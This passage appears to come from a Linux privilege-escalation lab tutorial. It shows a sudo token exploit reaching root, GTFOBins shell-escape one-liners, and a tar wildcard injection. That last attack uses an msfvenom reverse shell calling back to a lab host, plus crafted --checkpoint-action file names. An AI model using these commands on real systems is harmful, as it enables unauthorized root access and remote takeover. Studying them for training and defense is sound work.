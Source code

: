 ```
$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password.
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```
&nbsp;


## 4] GTFOBins

[GTFOBins](https://gtfobins.github.io/)  is a collection of scripts that can be used to bypass local security restrictions in various applications and services. These scripts leverage various features or misconfigurations in these applications to allow an attacker to run arbitrary commands with escalated privileges.

> gdb -nx -ex ‘!sh’ -ex quit  
> sudo mysql -e ‘! /bin/sh’  
> strace -o /dev/null /bin/sh  
> sudo awk ‘BEGIN {system(“/bin/sh”)}’

&nbsp;

## 5] Wildcard
View the contents of the other cron job script:

cat /usr/local/bin/compress.sh

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

chmod +x /home/user/shell.elf

Create these two files in /home/user:

touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

